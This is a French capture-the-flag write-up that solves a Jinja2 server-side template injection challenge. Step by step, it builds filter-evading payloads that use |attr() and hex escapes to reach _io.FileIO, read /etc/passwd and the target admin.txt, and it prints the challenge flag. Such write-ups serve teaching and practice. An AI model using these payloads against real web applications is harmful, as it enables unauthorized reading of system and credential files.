



  # Titre : Trouver les contraintes
## Description :
Il faut que nous retrouvions impérativement le fichier `admin.txt` situé a la racine de ce projet. Nous n'avons plus accès à la machine arriveriez vous a trouver un moyen de lire le fichier ?
## Résolution
On a ce site web, ce qui va nous intéresser c'est la fonction de recherche :

Nous pouvons identifier la vulnérabilité en envoyant la payload suivante : `{{ 3*3 }}`.

On voit que le `3*3` a été executé :





Nous savons donc que nous avons affaire à une **SSTI**.

On peut donc essayer d'envoyer un code plus complexe :

`{{ ''.__class__ }}`

Ici on demande de nous renvoyer la classe de `''` donc on devrait nous renvoyer `<class 'str'>`. Sauf que rien nous est renvoyé, on se rend compte que certain caractères sont filtrés.

Nous allons les identifier:

* `{{ ''|attr("__class__") }}` : bypass du filtre sur le caractère `.`. On test, toujours pareil. 

* `{{ ''|attr("\x5f\x5fclass\x5f\x5f") }}` : bypass du filtre sur le caractère `_`.

* `{{ ""|attr("\x5f\x5fclass\x5f\x5f") }}` : bypass du filtre sur le caractère `'`. 

On a un retour : `<class 'str'>`. La commande est donc bien executé.

Les filtres sont donc sur les caractères `.`, `_`, et `'`.

Maintenant que les filtres sont identifiés on peut chercher a aller plus loin :

```sh
{{(""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")) }}
```

On a un retour : `<class 'object'>`.

On va afficher toutes les sous classes de `object` :

```sh
{{(""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()}}
```
On obtient une longue liste de classes Python disponibles.

On cherche jusqu'a trouver l'index de la classe `<class '_io._IOBase'>`, cette classe possède des sous classes qui vont nous permettre de lire un fichier.

L'index de la classe `<class '_io._IOBase'>` est : `92`. 

On peut le vérifier avec la payload suivante : 
```sh
{{("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]}}
```

On va maintenant afficher les sous classes de la classe `<class '_io._IOBase'>` :

```sh
{{(("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]|attr("\x5f\x5fsubclasses\x5f\x5f"))()}}
```

On obtient 4 classes :

`[<class '_io._RawIOBase'>, <class '_io._BufferedIOBase'>, <class '_io._TextIOBase'>, <class 'io.IOBase'>]`

Celle qui nous intéresse est la première `<class '_io._RawIOBase'>`.

Vous pouvez retrouver les informations de la classe [ici](https://docs.python.org/3/library/io.html#io.RawIOBase).

On continue en affichant toutes les sous classes de `<class '_io._RawIOBase'>` :

```sh
{{((("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]|attr("\x5f\x5fsubclasses\x5f\x5f"))()}}
```

On obtient une liste de deux classes : `[<class '_io.FileIO'>, <class 'io.RawIOBase'>]`.

Celle qui va nous intéresser est : `<class '_io.FileIO'>`. Vous pouvez retrouver les informations de la classe [ici](https://docs.python.org/3/library/io.html#raw-file-i-o)

On va donc devoir préciser un nom de fichier à lire nous allons prendre `/etc/passwd` pour tester :

```sh
{{((("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]("/etc/passwd")}}
```
On a plus rien qui apparaît, un des caractères que nous avons ajouté semble être filtré. C'est le caractère `/`. On va le bypass en utilisant `\x2f` à la place :

```sh
{{((("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]("\x2fetc\x2fpasswd")}}
```
Résultat : `<_io.FileIO name='/etc/passwd' mode='rb' closefd=True>`.

C'est parfait, il ne nous reste plus qu'a utiliser la fonction `read()` pour lire le contenu du fichier `/etc/passwd` : 

```sh
{{((("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]("\x2fetc\x2fpasswd")|attr("read")()}}
```
Résultat :




On va donc chercher le fichier `admin.txt` et on le trouve dans `../admin.txt` :

```sh
{{((("abc"|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fbase\x5f\x5f")|attr("\x5f\x5fsubclasses\x5f\x5f"))()[92]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]|attr("\x5f\x5fsubclasses\x5f\x5f"))()[0]("\x2e\x2e\x2fadmin\x2etxt")|attr("read")()}}
```
Résultat :





On peut valider le challenge avec le mot de passe de l'administrateur soit : `NHM2I{b4571659-abb7-4555-9cc6-4a52a8e6eed7}`

Autre possibilité :
```get
http://127.0.0.1:8000/?injection={{+((((%22%22|attr(%22\x5f\x5fclass\x5f\x5f%22)|attr(%22\x5f\x5fmro\x5f\x5f%22))[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()[111]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()[0]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()[0](%22\x2fetc\x2fpasswd%22)|attr(%22read%22)()+}}
```
